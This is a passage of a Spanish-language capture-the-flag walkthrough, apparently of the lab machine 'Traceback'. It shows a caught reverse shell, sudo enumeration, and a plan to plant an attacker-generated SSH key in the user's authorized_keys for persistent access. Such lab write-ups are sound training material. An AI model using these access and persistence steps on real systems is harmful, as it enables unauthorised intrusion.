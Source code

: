 ```console
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:35590.
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:34:14 up  4:09,  2 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/1    10.10.14.11      04:22    2:11m  0.00s  0.00s -sh
root     pts/2    10.10.14.11      04:22    2:11m  0.02s  0.02s -bash
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
```

corriendo el comando `sudo -l` se ve que podemos correr un script de `lua` como el usuario `sysadmin`

```console
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
si trato de correrlo con la terminal que tengo da error así que manos a la obra con mejorar la TTY, ¿Porque no SSH?

Adicionalmente se encuentra un archivo llamado `note.txt` dentro de la carpeta home del usuario **webadmin** con el siguiente contenido:

```console
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Desconozco el password del usuario **webadmin** para poder entrar por **SSH** pero pudiendo subir archivos puedo generar un par de llaves rsa y agregarla a las llaves autorizadas del usuario para poder loguearme de esa manera, para eso:

En Kali:

> `ssh-keygen -f mykey -t rsa -b 1024`

y tengo dos archivos llamados `mykey` (llave privada) y `mykey.pub` (llave pública)

> `cat mykey.pub`

```console
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDEJknTEwSqMP9to1BhYwF/kr3Cpoavb6EfKZz/BTvw/LOlmxrEAyMbJUBBOogtXKiwO7eQqOyK2eHnZdCd5Laq7cX58Coc5lDWdbBJUdNrKqwlbiDrA4x38+W6Ir95ClkfaxnWB3FonfZwnP0wQAsm7AltbH0gKMCH/NDOUXHF3Q== root@duende
```
